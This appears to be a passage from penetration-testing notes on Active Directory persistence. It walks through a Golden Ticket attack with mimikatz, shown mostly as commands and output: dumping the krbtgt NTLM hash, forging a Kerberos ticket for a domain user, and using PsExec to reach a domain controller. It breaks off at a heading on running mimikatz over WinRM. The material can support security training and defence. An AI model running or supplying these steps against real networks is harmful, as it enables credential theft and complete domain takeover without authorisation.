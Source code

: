 ## Persistence

### Golden Ticket

For more info about this attack, see [here](../persistence/golden-ticket.md).

{% tabs %}
{% tab title="1. Extract NTML" %}
```powershell
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
...
User : krbtgt
NTLM : 1693c6cefafffc7af11ef34d1c788f47
```
{% endtab %}

{% tab title="2. Create the GT" %}
Delete existing Kerberos tickets.

```powershell
mimikatz # kerberos::purge
```

Create the GT.

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-... /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
...
Golden ticket for 'jen @ corp.com' successfully submitted for current session
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
Launch a new session using the current security context.

```powershell
mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
```

Exploit.

```powershell
# Use hostname, not IP address as the latter forces NTML auth
> PsExec.exe \\dc1 cmd.exe
```
{% endtab %}
{% endtabs %}

## Mimikatz via WinRM

When using `mimikatz` via a WinRM session it won't run as expected because it’s launched in a non-interactive session. This prevents it from creating or accessing a console. This results in repeated prompts and no actual output. The solution to this issue is to run it with a non-interactive command:
